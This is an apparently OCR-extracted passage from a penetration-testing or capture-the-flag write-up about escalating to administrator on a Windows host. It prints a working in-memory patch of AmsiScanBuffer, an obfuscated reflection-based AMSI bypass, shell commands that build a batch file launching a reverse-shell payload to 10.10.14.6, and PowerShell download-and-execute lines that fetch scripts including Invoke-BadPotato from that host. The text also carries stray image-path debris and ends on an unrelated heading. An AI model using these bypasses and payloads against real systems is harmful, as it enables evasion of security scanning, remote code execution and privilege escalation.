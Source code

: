     # Patching amsi.dll AmsiScanBuffer by rasta-mouse
    $Win32 = @"

    using System;
    using System.Runtime.InteropServices;

    public class Win32 {

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
    "@

    Add-Type $Win32

    $LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
    $Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
    $p = 0
    [Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
    $Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
    [System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)

and another script which is ps but we will run as txt amsi_rmouse.txt




    cd www
    echo "@echo off" > runme.bat
    echo "start /b $(python3 payload.py 10.10.14.6 445)" >> runme.bat
    echo "exit /b" >> runme.bat
    python3 -m http.server 80

for run them AMSI bypass. there is another way to do it cauze we dont wanna exe files on disk SO that means why we used [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)

    $x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
    iex(new-object system.net.webclient).downloadstring('http://10.10.14.6/amsi_rmouse.txt')
    iex(new-object net.webclient).downloadstring('http://10.10.14.6/PowerSharpPack/PowerSharpBinaries/Invoke-BadPotato.ps1')
    Invoke-BadPotato -Command "c:\temp\runme.bat"

it will hit me back as administrator.

## Leveraging SeImpersonatePrivilege for MSSQL Enumeration in Pentests
